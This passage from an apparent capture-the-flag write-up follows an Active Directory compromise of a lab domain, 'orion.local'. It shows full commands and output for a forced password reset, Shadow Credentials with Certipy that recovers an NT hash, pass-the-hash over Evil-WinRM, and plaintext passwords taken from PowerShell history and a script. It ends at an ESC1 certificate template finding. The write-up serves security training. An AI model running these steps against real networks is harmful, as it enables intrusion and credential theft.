

*Validating svc-onboarding credentials with NetExec*

Valid, with READ on the default shares.

## Access as s.mitchell

In BloodHound, `svc-onboarding` is a member of `helpdeskops`, which holds `ForceChangePassword` over three users.



*BloodHound ForceChangePassword: helpdeskops over s.mitchell*

One of them, `s.mitchell`, sits in `helpdeskops-tier2`, which holds `GenericWrite` over two more users, so that is the account we take.



*BloodHound showing s.mitchell membership in helpdeskops-tier2*

`ForceChangePassword` sets the password without needing the current one.

```
net rpc password "s.mitchell" "0xB1rdWasHere1337" -U "orion.local"/"SVC-ONBOARDING"%"password2510" -S "10.0.0.5"
```

The command returns nothing, so we test the new password.

```
nxc smb 10.0.0.5 -u 's.mitchell' -p '0xB1rdWasHere1337' --shares
```

```
SMB         10.0.0.5        445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:orion.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.0.0.5        445    DC01             [+] orion.local\s.mitchell:0xB1rdWasHere1337 
SMB         10.0.0.5        445    DC01             [*] Enumerated shares
SMB         10.0.0.5        445    DC01             Share           Permissions     Remark
SMB         10.0.0.5        445    DC01             -----           -----------     ------
SMB         10.0.0.5        445    DC01             ADMIN$                          Remote Admin
SMB         10.0.0.5        445    DC01             C$                              Default share
SMB         10.0.0.5        445    DC01             IPC$            READ            Remote IPC
SMB         10.0.0.5        445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.0.5        445    DC01             SYSVOL          READ            Logon server share
```



*Validating s.mitchell credentials with NetExec*

The new password works.

## Access as m.white

One of the two users `helpdeskops-tier2` can write to is `m.white`.



*BloodHound GenericWrite: helpdeskops-tier2 over m.white*

`m.white` sits in `WS-IT-REMOTEACCESS`, so that is the next target.



*BloodHound showing m.white membership in WS-IT-REMOTEACCESS*

`GenericWrite` does not allow a password reset, only attribute writes, and a Targeted Kerberoast against `m.white` returns a ticket that is slow to crack.

Shadow Credentials uses that write to add a public key we generate to `m.white`'s `msDS-KeyCredentialLink` attribute, which lists the keys an account can sign in with in place of a password. We then authenticate as `m.white` over PKINIT, the Kerberos extension that lets a certificate stand in for a password, using the matching private key. Certipy's `shadow auto` runs both steps and then puts the attribute back the way it found it.

```
certipy-ad shadow auto -u 's.mitchell@orion.local' -p '0xB1rdWasHere1337' -account 'm.white' -dc-ip 10.0.0.5
```

```
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Targeting user 'm.white'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'cd19244138b14068968502e4c93ea409'
[*] Adding Key Credential with device ID 'cd19244138b14068968502e4c93ea409' to the Key Credentials for 'm.white'
[*] Successfully added Key Credential with device ID 'cd19244138b14068968502e4c93ea409' to the Key Credentials for 'm.white'
[*] Authenticating as 'm.white' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'm.white@orion.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'm.white.ccache'
[*] Wrote credential cache to 'm.white.ccache'
[*] Trying to retrieve NT hash for 'm.white'
[*] Restoring the old Key Credentials for 'm.white'
[*] Successfully restored the old Key Credentials for 'm.white'
[*] NT hash for 'm.white': 1b4f4e8d871ad063ffded46cc620bbf6
```



*Certipy adding a Key Credential to m.white, authenticating with it, and recovering the NT hash*

That gives us `m.white`'s NT hash. Certipy gets that hash by requesting a Kerberos ticket to itself and reading the credential blob out of the ticket's PAC.

## Shell as m.white (user.txt)

We try the hash against WinRM on WS-IT. NTLM authenticates with the hash itself, so there is nothing left to crack.

```
evil-winrm -i 10.0.0.6 -u 'm.white' -H '1b4f4e8d871ad063ffded46cc620bbf6'
```



*The Evil-WinRM session on WS-IT as m.white with user.txt listed on the desktop*

`user.txt` is on `m.white`'s desktop.

## Access as m.reeves

In the `m.white` session, we ask PSReadLine where it saves command history.

```
(Get-PSReadLineOption).HistorySavePath
```

```
C:\Users\m.white\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ServerRemoteHost_history.txt
```

That is the file for this remote session. Commands typed at a local console go to `ConsoleHost_history.txt` in the same folder, so we read that one.

```
type "C:/Users/m.white/APPDATA/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt"
```

```
Get-Process
Get-ChildItem C:\Shares
cd C:\Shares\IT
dir
ipconfig /all
Test-Connection DC01
$cred = New-Object System.Management.Automation.PSCredential('ORION\m.reeves', (ConvertTo-SecureString 'Pa$$word!123' -AsPlainText -Force))
Invoke-Command -ComputerName WS-IT -Credential $cred -ScriptBlock { whoami }
net use Z: \\WS-IT\IT /user:ORION\m.reeves Pa$$word!123
Get-EventLog -LogName System -Newest 10
cls
exit
```



*m.white's ConsoleHost_history.txt holding the m.reeves password in plaintext*

The history holds `m.reeves`'s password twice, once in a credential object and once on a `net use` command line. We validate it against the DC.

```
nxc smb 10.0.0.5 -u 'm.reeves' -p 'Pa$$word!123' --shares
```

```
SMB         10.0.0.5        445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:orion.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.0.0.5        445    DC01             [+] orion.local\m.reeves:Pa$$word!123 
SMB         10.0.0.5        445    DC01             [*] Enumerated shares
SMB         10.0.0.5        445    DC01             Share           Permissions     Remark
SMB         10.0.0.5        445    DC01             -----           -----------     ------
SMB         10.0.0.5        445    DC01             ADMIN$                          Remote Admin
SMB         10.0.0.5        445    DC01             C$                              Default share
SMB         10.0.0.5        445    DC01             IPC$            READ            Remote IPC
SMB         10.0.0.5        445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.0.5        445    DC01             SYSVOL          READ            Logon server share 
```



*Validating m.reeves credentials with NetExec*

Valid, with READ on the default shares.

## Shell as m.reeves

BloodHound has `m.reeves` in `WS-IT-ADMINS`, which gives local admin on WS-IT, and in `WS-IT-REMOTEACCESS` like `m.white`.



*BloodHound showing m.reeves membership in WS-IT-ADMINS and WS-IT-REMOTEACCESS*

We connect to WS-IT with Evil-WinRM.

```
evil-winrm -i 10.0.0.6 -u 'm.reeves' -p 'Pa$$word!123'
```

`m.white`'s history also points at `C:\Shares\IT`, the folder behind the `IT` share Guest could not open. In the `m.reeves` session, we list it.

```
cd C:\Shares\IT

dir
```

```
    Directory: C:\Shares\IT

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         10/3/2026   7:58 PM                Docs
d-----         10/3/2026   4:22 PM                Logs
d-----         10/3/2026   7:55 PM                Scripts
d-----         10/3/2026   7:56 PM                Tools
```

We look in `Scripts`.

```
cd Scripts

dir
```

```
    Directory: C:\Shares\IT\Scripts

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         10/3/2026   4:23 PM           1005 Check-DiskSpace.ps1
-a----         10/3/2026   4:23 PM           1321 Cleanup-TempFiles.ps1
-a----         10/3/2026   4:22 PM           1759 Publish-CRL.ps1
```



*The Evil-WinRM session on WS-IT as m.reeves listing C:\Shares\IT\Scripts*

We download all three through the same session.

```
download *
```

## Access as svc-pki

Back on our own machine, we read `Publish-CRL.ps1`. The block below is trimmed to the part that matters, the credentials it uses to connect to the CA.

```
cat Publish-CRL.ps1
```

```
# --- Service account credentials (used to connect to the CA) ---
$caUser = "ORION\svc-pki"
$caPass = ConvertTo-SecureString 'Pki@Orion2026!' -AsPlainText -Force
$caCred = New-Object System.Management.Automation.PSCredential($caUser, $caPass)
```



*Publish-CRL.ps1 carrying the svc-pki password in plaintext*

We validate the credentials against the DC.

```
nxc smb 10.0.0.5 -u 'svc-pki' -p 'Pki@Orion2026!' --shares
```

```
SMB         10.0.0.5        445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:orion.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.0.0.5        445    DC01             [+] orion.local\svc-pki:Pki@Orion2026! 
SMB         10.0.0.5        445    DC01             [*] Enumerated shares
SMB         10.0.0.5        445    DC01             Share           Permissions     Remark
SMB         10.0.0.5        445    DC01             -----           -----------     ------
SMB         10.0.0.5        445    DC01             ADMIN$                          Remote Admin
SMB         10.0.0.5        445    DC01             C$                              Default share
SMB         10.0.0.5        445    DC01             IPC$            READ            Remote IPC
SMB         10.0.0.5        445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.0.5        445    DC01             SYSVOL          READ            Logon server share 
```



*Validating svc-pki credentials with NetExec*

Valid, with READ on the default shares.

## BloodHound Enumeration (Part 2)

In BloodHound, `svc-pki` is a member of `CERTIFICATE ENROLLERS`.



*BloodHound showing svc-pki membership in CERTIFICATE ENROLLERS*

The group name and the script's comment both point at AD CS, so we enumerate the certificate templates next.

## Certipy Enumeration

Any authenticated account can run certipy find, but `-vulnerable` judges each template against the account running it, so we run it as `svc-pki`.

```
certipy-ad find -u 'svc-pki' -p 'Pki@Orion2026!' -dc-ip 10.0.0.5 -vulnerable -stdout
```

```
Certificate Authorities
  0
    CA Name                             : orion-DC01-CA
    DNS Name                            : DC01.orion.local
    Certificate Subject                 : CN=orion-DC01-CA, DC=orion, DC=local
    Certificate Serial Number           : 10CEC7AA2F7D31AD4064CBA0BF227013
    Certificate Validity Start          : 2026-10-03 16:25:15+00:00
    Certificate Validity End            : 2031-10-03 16:35:14+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : ORION.LOCAL\Administrators
      Access Rights
        ManageCa                        : ORION.LOCAL\Administrators
                                          ORION.LOCAL\Domain Admins
                                          ORION.LOCAL\Enterprise Admins
        ManageCertificates              : ORION.LOCAL\Administrators
                                          ORION.LOCAL\Domain Admins
                                          ORION.LOCAL\Enterprise Admins
        Enroll                          : ORION.LOCAL\Authenticated Users
Certificate Templates
  0
    Template Name                       : OrionAuth
    Display Name                        : OrionAuth
    Certificate Authorities             : orion-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 5 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2026-10-06T15:42:14+00:00
    Template Last Modified              : 2026-10-06T15:43:10+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : ORION.LOCAL\svc-pki
                                          ORION.LOCAL\Domain Admins
                                          ORION.LOCAL\Enterprise Admins
      Object Control Permissions
        Owner                           : ORION.LOCAL\Administrator
        Full Control Principals         : ORION.LOCAL\Domain Admins
                                          ORION.LOCAL\Enterprise Admins
        Write Owner Principals          : ORION.LOCAL\Domain Admins
                                          ORION.LOCAL\Enterprise Admins
        Write Dacl Principals           : ORION.LOCAL\Domain Admins
                                          ORION.LOCAL\Enterprise Admins
        Write Property Enroll           : ORION.LOCAL\Domain Admins
                                          ORION.LOCAL\Enterprise Admins
    [+] User Enrollable Principals      : ORION.LOCAL\svc-pki
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```



*Certipy flagging ESC1 on the OrionAuth template, with svc-pki holding the enrollment right*

Certipy flags ESC1 on the `OrionAuth` template, and its Enrollment Rights line names `svc-pki` directly.

## Shell as Administrator (root.txt)

